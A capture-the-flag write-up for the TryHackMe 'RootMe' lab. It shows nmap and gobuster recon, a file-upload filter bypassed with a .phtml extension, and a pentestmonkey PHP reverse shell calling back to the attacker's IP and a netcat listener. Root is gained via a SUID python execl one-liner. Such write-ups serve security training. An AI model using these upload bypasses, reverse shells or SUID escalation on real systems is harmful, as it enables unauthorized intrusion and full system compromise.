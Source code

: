 # RootMe

[Play](https://tryhackme.com/room/rrootme)

## Recon

```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.35.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 01:18 EDT
Nmap scan report for 10.10.35.149
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.57 seconds
```

Okay nothing interesting at all. Let’s go for an all ports scan.

While go buster and nmap runs, I wanted to see if the website is built on php or not. The following works!

`http://10.10.35.149/index.php`

Meanwhile

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.35.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/uploads              (Status: 301) [Size: 314] [--> http://10.10.35.149/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.35.149/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.35.149/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.35.149/panel/]
```

Panel looks interesting, so let’s try uploading a README.md file (of this repo).

![https://i.imgur.com/1xtAlAB.png](https://i.imgur.com/1xtAlAB.png)

Success! Let’s check the uploads page.

![https://i.imgur.com/XV6CLIc.png](https://i.imgur.com/XV6CLIc.png)

Great. Time for a phpreverseshell. Go to pentestmonkey or revshells.com and get the php one.

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.150.214';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;
...
```

Okay, time for uploading! ... and we get 

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1a725c9-6fa3-471a-890e-ed702dc32876/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1a725c9-6fa3-471a-890e-ed702dc32876/Untitled.png)

Okay. Clearly the extension is working against us, since `.md` passed. Oh and meanwhile

```
Nmap scan report for 10.10.35.149
Host is up (0.20s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

So let's see what other extensions are allowed. [Source](https://www.guru99.com/what-is-php-first-php-program.html)

- .phtml
- .php3
- .php4
- .php5
- .phps

Okay. One by one.

## Foothold

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d4cc0a26-2daa-4b74-82bc-afc81ac4bed0/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d4cc0a26-2daa-4b74-82bc-afc81ac4bed0/Untitled.png)

Ha! `.phtml` works! Lesgooo

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.35.149] 33678
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:39:36 up 30 min,  0 users,  load average: 0.00, 0.01, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/                                                                                 
$ ls                                                                              
bin                                                                               
boot                                                                              
cdrom                                                                             
dev
... 
```

## PrivEsc

```
www-data@rootme:/home/rootme$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null                                                                                                                                   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                             
/usr/lib/snapd/snap-confine                                                                                                                                             
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
...
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

python thing looks interesting. [gtfobins](https://gtfobins.github.io/gtfobins/python/#suid) ftw!

```
www-data@rootme:/$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
bash -i
bash: cannot set terminal process group (891): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$
```

We are done!
